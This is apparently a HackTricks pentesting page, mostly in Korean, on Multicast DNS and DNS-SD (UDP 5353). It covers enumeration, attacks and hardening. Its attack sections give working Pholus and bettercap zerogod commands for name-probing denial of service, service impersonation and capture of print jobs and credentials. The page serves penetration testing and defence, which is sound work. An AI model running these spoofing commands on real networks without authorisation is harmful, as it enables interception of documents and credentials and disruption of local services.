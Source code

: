 # 5353/UDP Multicast DNS (mDNS) 및 DNS-SD

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

Multicast DNS (mDNS)는 유니캐스트 DNS 서버 없이 로컬 링크 내에서 DNS와 유사한 이름 해석 및 서비스 검색을 가능하게 합니다. 이는 UDP/5353 및 멀티캐스트 주소 224.0.0.251 (IPv4)와 FF02::FB (IPv6)를 사용합니다. DNS 서비스 검색 (DNS-SD, 일반적으로 mDNS와 함께 사용됨)은 PTR, SRV 및 TXT 레코드를 통해 서비스를 열거하고 설명하는 표준화된 방법을 제공합니다.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Key protocol details you’ll often leverage during attacks:
- .local 영역의 이름은 mDNS를 통해 해결됩니다.
- QU (Query Unicast) 비트는 멀티캐스트 질문에 대해서도 유니캐스트 응답을 요청할 수 있습니다.
- 구현은 로컬 링크에서 출발하지 않은 패킷을 무시해야 하지만, 일부 스택은 여전히 이를 수용합니다.
- 프로빙/발표는 고유한 호스트/서비스 이름을 강제합니다; 여기서 간섭하면 DoS/“이름 점유” 조건이 발생합니다.

## DNS-SD 서비스 모델

서비스는 .local 아래에서 _<service>._tcp 또는 _<service>._udp로 식별됩니다. 예: _ipp._tcp.local (프린터), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge) 등. _services._dns-sd._udp.local로 유형을 발견한 후, 발견된 인스턴스를 SRV/TXT/A/AAAA로 해결합니다.

## 네트워크 탐색 및 열거

- nmap 대상 스캔 (호스트에서 직접 mDNS):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap 브로드캐스트 발견 (세그먼트를 듣고 모든 DNS-SD 유형/인스턴스를 열거):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# 서비스 유형 목록
avahi-browse -bt _services._dns-sd._udp
# 모든 서비스 탐색 및 호스트/포트로 해결
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# 모든 HTTP 서비스 탐색
dns-sd -B _http._tcp
# 서비스 유형 열거
dns-sd -B _services._dns-sd._udp
# 특정 인스턴스를 SRV/TXT로 해결
dns-sd -L "My Printer" _ipp._tcp local
```
- tshark로 패킷 캡처:
```bash
# 실시간 캡처
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# 오직 DNS-SD 서비스 목록 쿼리
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

Tip: 일부 브라우저/WebRTC는 로컬 IP를 숨기기 위해 임시 mDNS 호스트 이름을 사용합니다. 랜덤-UUID.local 후보가 네트워크에 보이면, mDNS로 해결하여 로컬 IP로 전환하세요.

## 공격

### mDNS 이름 프로빙 간섭 (DoS / 이름 점유)

프로빙 단계에서 호스트는 이름의 고유성을 확인합니다. 스푸핑된 충돌로 응답하면 새로운 이름을 선택하거나 실패하도록 강제합니다. 이는 서비스 등록 및 발견을 지연시키거나 방지할 수 있습니다.

Example with Pholus:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### 서비스 스푸핑 및 사칭 (MitM)

광고된 DNS-SD 서비스를 사칭하여 (프린터, AirPlay, HTTP, 파일 공유) 클라이언트가 당신에게 연결하도록 유도합니다. 이는 특히 다음에 유용합니다:
- _ipp._tcp 또는 _printer._tcp를 스푸핑하여 문서를 캡처합니다.
- 클라이언트를 HTTP/HTTPS 서비스로 유도하여 토큰/쿠키를 수집하거나 페이로드를 전달합니다.
- Windows 클라이언트가 사칭된 서비스에 대한 인증을 협상할 때 NTLM 릴레이 기술과 결합합니다.

bettercap의 zerogod 모듈(mDNS/DNS-SD 스푸퍼/사칭자) 사용:
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
또한 일반 LLMNR/NBNS/mDNS/WPAD 스푸핑 및 자격 증명 캡처/릴레이 워크플로를 참조하십시오:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### 최근 구현 문제에 대한 노트 (참여 중 DoS/지속성에 유용)

- Avahi reachable-assertion 및 D-Bus 충돌 버그(2023)는 Linux 배포판에서 avahi-daemon을 종료시킬 수 있으며, 이는 재시작할 때까지 대상 호스트에서 서비스 검색을 방해합니다.
- Cisco IOS XE 무선 LAN 컨트롤러 mDNS 게이트웨이 DoS(2024, CVE-2024-20303)는 인접 공격자가 높은 CPU를 유도하고 AP를 연결 해제할 수 있게 합니다. VLAN 간에 mDNS 게이트웨이를 발견하면 잘못된 형식이나 높은 비율의 mDNS에 대한 안정성에 유의하십시오.

## 방어적 고려사항 및 OPSEC

- 세그먼트 경계: mDNS 게이트웨이가 명시적으로 필요하지 않는 한 보안 구역 간에 224.0.0.251/FF02::FB를 라우팅하지 마십시오. 검색을 브리징해야 하는 경우 허용 목록 및 비율 제한을 선호하십시오.
- Windows 엔드포인트/서버:
- mDNS를 통한 이름 해제를 강제로 비활성화하려면 레지스트리 값을 설정하고 재부팅하십시오:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- 관리되는 환경에서는 내장된 “mDNS (UDP-In)” Windows Defender 방화벽 규칙(최소한 도메인 프로필에서)을 비활성화하여 홈/로밍 기능을 유지하면서 수신 mDNS 처리를 방지하십시오.
- 최신 Windows 11 빌드/GPO 템플릿에서는 “컴퓨터 구성 > 관리 템플릿 > 네트워크 > DNS 클라이언트 > 멀티캐스트 DNS(mDNS) 프로토콜 구성” 정책을 사용하고 이를 비활성화로 설정하십시오.
- Linux (Avahi):
- 필요하지 않을 때 게시를 잠그십시오: `disable-publishing=yes`를 설정하고 `/etc/avahi/avahi-daemon.conf`에서 `allow-interfaces=` / `deny-interfaces=`로 인터페이스를 제한하십시오.
- `check-response-ttl=yes`를 고려하고 엄격히 필요하지 않는 한 `enable-reflector=yes`를 피하십시오; 반사할 때는 `reflect-filters=` 허용 목록을 선호하십시오.
- macOS: 특정 서브넷에 대해 Bonjour 검색이 필요하지 않을 때 호스트/네트워크 방화벽에서 수신 mDNS를 제한하십시오.
- 모니터링: `_services._dns-sd._udp.local` 쿼리의 비정상적인 급증이나 중요한 서비스의 SRV/TXT의 갑작스러운 변화를 경고하십시오; 이는 스푸핑 또는 서비스 사칭의 지표입니다.

## 도구 빠른 참조

- nmap NSE: `dns-service-discovery` 및 `broadcast-dns-service-discovery`.
- Pholus: 능동 스캔, 역 mDNS 스윕, DoS 및 스푸핑 도우미.
```bash
# 수동 스니프 (타임아웃 초)
sudo python3 pholus3.py <iface> -stimeout 60
# 서비스 유형 열거
sudo python3 pholus3.py <iface> -sscan
# 일반 mDNS 요청 전송
sudo python3 pholus3.py <iface> --request
# 서브넷의 역 mDNS 스윕
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: mDNS/DNS-SD 서비스를 발견, 저장, 광고 및 사칭합니다(위의 예 참조).

## 스푸핑/MitM

이 서비스에서 수행할 수 있는 가장 흥미로운 공격은 클라이언트와 실제 서버 간의 통신에서 MitM을 수행하는 것입니다. 민감한 파일(프린터와의 통신을 MitM)이나 자격 증명(Windows 인증)을 얻을 수 있을지도 모릅니다.\
자세한 내용은 다음을 확인하십시오:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## 참고문헌

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD discovery, spoofing, impersonation)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
